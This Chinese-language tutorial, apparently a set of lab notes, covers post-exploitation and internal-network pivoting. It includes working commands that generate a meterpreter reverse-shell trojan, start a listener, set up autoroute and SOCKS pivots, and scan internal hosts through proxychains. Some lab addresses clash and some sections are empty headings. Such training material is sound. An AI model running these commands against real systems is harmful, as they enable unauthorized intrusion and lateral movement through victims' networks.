





# 内网渗透
- 当渗透测试到达后渗透阶段时，我们拿到了位于公网主机的权限，并且通过该主机挂代理能够访问位于内网的机器。这时如果客户有内网渗透的需求，那么我们就要开始进行内网渗透了。
- 跳板攻击：利用已经被入侵的主机作为跳板来攻击网络中其他主机或访问由于路由问题而不能直接访问的内网主机。
## 0x01内网基础

**首先需要模拟一套已经完成渗透的内网环境出来**

1. 准备五台虚拟机（拓扑图如下）：

   - 一台Kali：内网IP为10.1.1.10，作为Hacker PC
   - 一台Win7 x64：内网IP为10.1.2.10，作为漏洞服务器
   - 一台Win Server 2003 x64：内网IP为10.1.2.10，作为攻击目标服务器
   - 一台m0n0wall：内网IP为10.1.1.1，公网IP为192.168.66.206
   - 一台m0n0wall：内网IP为10.1.2.1，公网IP为192.168.66.8

   

2. 在Kali上生成木马，并进行监听

3. 在Win7上运行木马

4. 操控靶机

   ```
   // 生成木马
   # msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.66.206 LPORT=4444 -f exe > msf.exe
   ```

   

   ```
   // 开启监听
   # msfconsole
   # msf6 > use exploit/multi/handler
   # msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
   # msf6 exploit(multi/handler) > set lhost 10.1.1.10
   # msf6 exploit(multi/handler) > exploit
   ```

   

## 内网信息收集
## 判断是域环境还是非域环境
## 非域环境渗透
## 0x05内网转发及代理

- 使用meterpreter的自动路由进行转发

```
// 设置并查看自动路由
# meterpreter > run autoroute -s 192.168.10.0/24
# meterpreter > run autoroute -p
```


- 使用auxiliary/server/socks4a模块开启Socket代理

```
# msf6 > use auxiliary/server/socks4a
# msf6 exploit(socks4a) > set srvhost 10.1.1.10
# msf6 exploit(socks4a) > run
```

## 0x06内网环境及存活探测

- 利用ipconfig查看网络环境
- 利用arp扫描进行主机探测

```
# meterpreter > ipconfig
# meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.10.0/24
```


## 0x07内网主机端口扫描及服务探测

- 利用MSF的自动路由对目标机继续扫描


```
# msf6 > use auxiliary/scanner/portscan/tcp
# msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.10.12
# msf6 auxiliary(scanner/portscan/tcp) > set ports 443,80,22
# msf6 auxiliary(scanner/portscan/tcp) > set threads 20
# msf6 auxiliary(scanner/portscan/tcp) > exploit
```



## 内网横向渗透
## 0x08内网转发/代理工具

### ProxyChains

> ProxyChains是为Linux操作系统而开发的转发工具

- 设置Socket代理

  > 使用auxiliary/server/socks4a模块开启代理

  ```
  # msf6 > use auxiliary/server/socks4a
  # msf6 exploit(socks4a) > set srvhost 10.1.1.10
  # msf6 exploit(socks4a) > run
  ```

- 使用ProxyChains

  1. 配置 /etc/proxychains.conf

    ```
   # vim /etc/proxychains.conf
   // 添加一条socks4代理
   # socks4 10.1.1.10 1080
    ```

  

  2. 使用代理发送请求，搜集相关信息

    ```
   # proxychains nmap 192.168.10.12
    ```
